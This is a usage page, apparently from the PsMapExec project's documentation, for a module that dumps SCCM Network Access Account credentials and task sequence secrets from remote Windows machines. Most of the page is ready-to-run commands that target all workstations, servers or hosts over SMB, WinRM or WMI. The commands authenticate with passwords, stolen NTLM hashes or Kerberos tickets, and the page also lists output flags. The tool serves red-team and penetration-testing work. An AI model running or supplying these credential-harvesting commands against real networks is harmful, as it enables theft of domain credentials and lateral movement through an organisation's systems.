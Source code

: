 # SCCM

Dumps local SCCM secrets for Network Access Account credentials and Task sequence data. Collected information is automatically parsed and organized where it will be stored in $PWD\PME\SCCM\.

# Usage

##### SMB execution with password authentication, targeting workstations

    PsMapExec SMB -Targets "Workstations" -Username [User] -Password [Pass] -Module SCCM

##### WinRM execution with hash authentication, targeting servers

    PsMapExec WinRM -Targets "Servers" -Username [User] -Hash [Hash] -Module SCCM

##### WMI execution with Kerberos ticket authentication (Username not required)

    PsMapExec WMI -Targets "All" -Ticket [doI..] -Module SCCM

# Optional Parameters

### 1) Will ommit parsing output from each system.

    -NoParse

### 2) Displays each targets output to the console

    -ShowOutput

### 3) Display only successful results

    -SuccessOnly

# Supported Methods

1) SMB 

2) SessionHunter

3) WMI 

4) WinRM

